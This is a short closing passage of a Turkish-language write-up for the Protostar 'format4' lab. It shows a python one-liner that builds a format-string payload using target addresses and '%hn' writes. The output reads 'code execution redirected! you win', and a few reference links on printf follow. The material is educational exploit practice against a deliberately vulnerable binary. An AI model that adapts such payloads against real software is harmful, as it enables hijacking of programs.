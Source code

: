 ```bash
user@protostar:/tmp$ echo $(python -c 'print "\x26\x97\x04\x08" + "\x24\x97\x04\x08" + "%2044d" + "%4$hn" + "%31919d" + "%5$hn" ') | /opt/protostar/bin/format4
.
.
 -1208122336
code execution redirected! you win
```
Ve diğer adresi de denk getirdik. Bu şekilde format serisini de tamamlamış olduk.

Faydalı Linkler :
1. https://www.tutorialspoint.com/format-specifiers-in-c
2. https://stackoverflow.com/questions/38942594/difference-between-single-and-double-quotes-in-printf-in-c
3. https://www.researchgate.net/figure/Stack-of-the-printf-function-call_fig2_237237332
